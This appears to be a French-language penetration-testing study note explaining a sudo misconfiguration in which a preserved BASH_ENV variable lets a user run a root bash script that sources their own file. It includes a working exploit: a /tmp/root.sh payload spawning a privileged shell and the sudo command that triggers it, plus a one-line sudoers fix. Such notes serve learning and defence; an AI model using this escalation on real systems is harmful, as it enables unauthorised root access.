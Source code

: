 # PATH HIJACK BASH\_ENV

***

* **Sudo** est configuré pour permettre à un utilisateur (`hish`) d’exécuter un script root (`/usr/bin/systeminfo`).
* Le script `/usr/bin/systeminfo` est un **script bash** lancé avec sudo, qui exécute plusieurs commandes système (`dmesg`, `ss`, `mount`).
* **Sudo autorise la préservation de la variable d’environnement `BASH_ENV`** (`env_keep+="BASH_ENV"`).
* Le script s’exécute en **shell non interactif**, ce qui a une importance capitale.

***

### <mark style="color:red;">Concepts clés</mark>

#### Shell interactif vs non interactif

* **Interactif** : Utilisateur tape les commandes en direct dans un terminal (bash charge `~/.bashrc`).
* **Non interactif** : Bash exécute un script ou une commande sans interaction (bash ne charge pas par défaut `~/.bashrc`).

#### Rôle de `BASH_ENV`

* En mode **non interactif**, bash cherche à charger le fichier pointé par la variable d’environnement `BASH_ENV`.
* Cela permet d’exécuter un script avant la commande principale, même en mode non interactif.

***

* `sudo` ne nettoie **pas** la variable `BASH_ENV` avant d’exécuter le script en root.
* Le script root est un bash script qui appelle des commandes systèmes.
* Tu peux forcer bash (lancé par sudo) à exécuter ton script malicieux via `BASH_ENV`.
* Ainsi, tu peux injecter du code qui s’exécute en root.

***

### <mark style="color:red;">Exemple d’exploitation</mark>

1. Crée un script malicieux `/tmp/root.sh` :

```bash
echo 'echo "BASH_ENV sourced as root!"; id; /bin/bash -p' > /tmp/root.sh
chmod +x /tmp/root.sh
```

Contenu :

```bash
echo "BASH_ENV sourced as root!"
id              # affiche l’UID pour prouver l’élévation
/bin/bash -p    # lance un shell root interactif en mode « privileged »
```

2. Lance le script root avec `sudo` en forçant la variable `BASH_ENV` :

```bash
env -i BASH_ENV=/tmp/root.sh PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin sudo /usr/bin/systeminfo
```

* `env -i` : lance un environnement propre, pour éviter que d’autres variables ne perturbent.
* `BASH_ENV=/tmp/root.sh` : force bash à charger ton script malicieux.
* `PATH` est remis à la valeur par défaut pour que les commandes système fonctionnent.
* `sudo /usr/bin/systeminfo` exécute le script en root, qui lance bash non interactif, donc exécute `BASH_ENV`.

***

* **Désactiver la préservation de `BASH_ENV`** dans sudoers : `env_keep -= "BASH_ENV"`

***
